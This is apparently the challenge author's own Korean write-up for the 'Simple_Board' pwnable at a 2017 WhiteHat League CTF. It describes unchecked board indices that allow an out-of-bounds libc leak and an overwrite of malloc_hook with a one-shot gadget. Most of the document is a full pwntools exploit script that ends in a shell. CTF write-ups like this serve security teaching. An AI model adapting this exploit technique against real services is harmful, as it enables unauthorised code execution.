 # WhiteHat League - Demon CTF

## Simple_Board Write-Up - 출제자 풀이

## Introduce

- Author : 이해찬 ( y0u_bat )
- Field : Pwnable
- E-Mail : y0u_bat@naver.com
- Data : 2017-09-12



## Intention

- Simple Board의 delete board 메뉴와 change board 메뉴에서 index를 검증하지 않아 OOB 취약점 존재.
- delete board 메뉴에서 OOB read를 하여 libc를 leak 할 수 있음.
- change board 메뉴에서 패스워드를 바꾸는 과정에서 OOB write가 가능하여 malloc_hook를 원샷 가젯으로 덮어서 쉘을 획득 할 수 있음.



## Solve.py

```Python
from pwn import *

context.log_level = 'debug'

HOST,PORT = '127.0.0.1',7777
s = remote(HOST,PORT)

def c_board_create(bname,bpw):
	s.sendline("1");
	s.recvuntil("board name : ")
	s.send(str(bname))
	s.recvuntil("board password : ")
	s.sendline(str(bpw))
	s.recvuntil("input: ")

def c_board_select(bname,):
	s.sendline("2")
	s.recvuntil("board_name : ")
	s.send(str(bname))
	s.recvuntil("input: ")

def c_board_delete(bid,bpw,ok):
	s.sendline("3")
	s.recvuntil("delete board id : ")
	s.sendline(str(bid))
	s.recvuntil("delete board pw (number) : ")
	s.sendline(str(bpw))

	s.recvuntil("board name is ")
	leak = s.recv(5)
	if s.recv(1) == "\x7f":
		leak += "\x7f\x00\x00"
		leak = u64(leak)
	s.recvuntil("Delete Y or N : ")
	s.send(str(ok))
	s.recvuntil("input: ")
	return leak

def c_board_change(bid,pw,new_name,new_pw):
	s.sendline("4")
	s.recvuntil("select board id : ")
	s.sendline(str(bid))
	s.recvuntil("select board pw (number) : ")
	s.sendline(str(pw))

	if new_name:
		s.recvuntil("change board name : ")
		s.send(str(new_name))
		s.recvuntil("change board password : ")
		s.sendline(str(new_pw))
		s.recvuntil("input: ")


def c_board_view():
	s.sendline("5")
	s.recvuntil("input: ")


def board_write(id_,content_):
	s.sendline("1")
	s.recvuntil("board id : ")
	s.send(str(id_))
	s.recvuntil("board content : ")
	s.send(str(content_))
	s.recvuntil("input: ")

def board_delete(id_):
	s.sendline("2")
	s.recvuntil("delete board id : ")
	s.sendline(str(id_))
	s.recvuntil("input: ")

def board_change(id_,content_):
	s.sendline("3")
	s.recvuntil("select board id : ")
	s.sendline(str(id_))
	s.recvuntil("change board_content : ")
	s.send(str(content_))
	s.recvuntil("input: ")

def board_view():
	s.sendline("4")
	s.recvuntil("input: ")

def back():
	s.sendline("5")
	s.recvuntil("input: ")
	
	
s.recvuntil("input: ")

c_board_create("test","123456789")

board_write("1","a"*30)

back()

libc_base = c_board_delete("-11","0","N")-0x3c5620
libc_malloc_hook_sub_10 = libc_base + 0x3C4B10-0x10
libc_malloc_hook = libc_base + 0x3C4B10
oneshot = libc_base + 0xF0274
c_board_create("test2","2222")
board_delete(str(libc_malloc_hook_sub_10))

back()

c_board_change("-4","0","\n",str(oneshot)) 

s.sendline("1")

log.info("libc_base : " + hex(libc_base))
log.info("libc_malloc_hook : " + hex(libc_malloc_hook))
s.interactive()
```